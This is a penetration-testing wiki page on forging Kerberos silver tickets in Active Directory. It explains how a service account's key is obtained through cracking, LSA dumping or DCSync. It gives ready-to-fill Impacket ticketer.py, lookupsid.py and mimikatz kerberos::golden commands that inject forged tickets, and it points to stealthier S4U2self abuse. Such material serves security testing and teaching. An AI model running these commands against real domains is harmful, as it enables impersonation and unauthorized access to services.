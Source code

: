 # Silver tickets

## Theory

The long-term key of a service account can be used to forge a Service ticket that can later be used with [Pass-the-ticket](../../../../ad/movement/kerberos/forged-tickets/broken-reference/) to access that service. In a Silver Ticket scenario, an attacker will forge a Service Ticket containing a PAC that features arbitrary information about the requesting user, effectively granting lots of access.

## Practice

{% hint style="info" %}
When forging tickets, before November 2021 updates, the user-id and groups-ids were useful but the username supplied was mostly useless. As of Nov. 2021 updates, if the username supplied doesn't exist in Active Directory, the ticket gets rejected. This also applies to Silver Tickets.
{% endhint %}

In order to craft a silver ticket, testers need to find the target service account's RC4 key (i.e. NT hash) or AES key (128 or 256 bits). This can be done by [capturing an NTLM response](../../ntlm/capture.md) (preferably NTLMv1) and [cracking](../../credentials/cracking.md) it, by [dumping LSA secrets](../../../../ad/movement/kerberos/forged-tickets/broken-reference/), by doing a [DCSync](../../credentials/dumping/dcsync.md), etc.

_"While the scope is more limited than Golden Tickets, the required hash is easier to get and there is no communication with a DC when using them, so detection is more difficult than Golden Tickets." (_[_adsecurity.org_](https://adsecurity.org/?p=2011)_)_

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [ticketer](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) can create silver tickets.

```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# with an NT hash
python ticketer.py -nthash $NThash -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username

# with an AES (128 or 256 bits) key
python ticketer.py -aesKey $AESkey -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username
```

The SPN (ServicePrincipalName) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations (more info on [adsecurity.org](https://adsecurity.org/?page\_id=183)).
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) can be used to generate a silver ticket with [`kerberos::golden`](https://tools.thehacker.recipes/mimikatz/modules/kerberos/golden). Testers need to carefully choose the right SPN type (cifs, http, ldap, host, rpcss) depending on the wanted usage.

```bash
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](../../../../ad/movement/kerberos/forged-tickets/broken-reference/).
{% endtab %}
{% endtabs %}

{% hint style="info" %}
A great, stealthier, alternative is to [abuse S4U2self](../delegations/s4u2self-abuse.md) in order to impersonate a domain user with local admin privileges on the target machine by relying on Kerberos delegation instead of forging everything.
{% endhint %}

## Resources

{% embed url="https://en.hackndo.com/kerberos-silver-golden-tickets/" %}

{% embed url="https://adsecurity.org/?p=2011" %}
